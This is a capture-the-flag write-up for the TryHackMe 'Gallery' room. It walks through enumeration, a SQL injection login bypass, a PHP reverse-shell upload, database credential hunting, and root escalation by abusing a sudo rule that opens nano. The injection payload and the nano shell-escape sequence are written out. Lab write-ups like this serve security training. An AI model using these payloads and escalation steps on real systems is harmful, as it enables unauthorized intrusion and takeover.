

# Gallery (THM)

- https://tryhackme.com/room/gallery666
- March 13, 2023
- easy

---

- easy at web exploit and not easy to get root access

## Enumeration

### Nmap

```
PORT     STATE SERVICE    REASON    VERSION
80/tcp   open  http       syn-ack   Apache httpd 2.4.29 (Ubuntu)
8080/tcp open  http-proxy syn-ack   Apache httpd 2.4.29 (Ubuntu)
```

### HTTP 80

- Apache default page
- Directory brute frocing in ffuf 
    - `gallery` directory -> redirect to login page

### HTTP 8080

- redirect to above `gallery/login.php` page
- Directory brute frocing in ffuf 

```
albums
archives
assets
build
classes
config
create_account
database
dist
home
inc
login
plugins
report -> 200
uploads
user
```

- only report is 200 and others are 403 and redirect to login page
- nothing to do here and have to do something at login page
- first, I tried to enter like `admin:admin`, `admin:password`, `guest:guest`, `guest:password`, etc
- not success
- try sql injection like `' OR 1=1 -- -` and get admin access at website


- walkthrough the website and found upload area at `http://$IP/gallery/?page=albums/images&id=4`
- previously, I found that `index.php` and it is `php` server and try to upload `php reverse shell`

- successfully uploaded


## User Access

### User www-data

- listen with nc at local machine and open the image or (for me `curl http://10.10.127.86/gallery/uploads/user_1/album_4/1678705500.php`) and get `www-data` shell


- nothing found special and run linpeas
- even running with linpeas, it is hard to find
- so need to explore deeply under `/var/www/html` files

- in initialize.php file
  


- enter mysql database to check 

```sh
mysql -u gallery_user -p
# enter password
show databases; # found gallery_db
use gallery_db;
show tables; # find users table
select * from users;
```

`admin:a228b12a08b6527e7978cbe5d914531c`
- but can't crack it.
- but I found some interesting directory from linpeas result


- `mike_home_backup` shouldn't be here


- from `.bash_history` file, found potential password for user mike

### User Mike

```sh
mike@gallery:/var/backups/mike_home_backup$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

- permission of rootkit.sh

```sh
mike@gallery:/var/backups/mike_home_backup$ ls -la /opt/rootkit.sh
-rw-r--r-- 1 root root 364 May 20  2021 /opt/rootkit.sh
```
- can't edit this file 
- content in rootkit.sh

```sh
mike@gallery:/var/backups/mike_home_backup$ cat /opt/rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

## Root Access

- we can use `nano` to get root access (according to GTFObin)
- run like

```sh
sudo /bin/bash /opt/rootkit.sh # then enter
read # to activate nano and it will open some text file
# inside text file
# Ctrl+r , Ctrl+x and enter
reset; sh 1>&0 2>&0
```
- get root access

---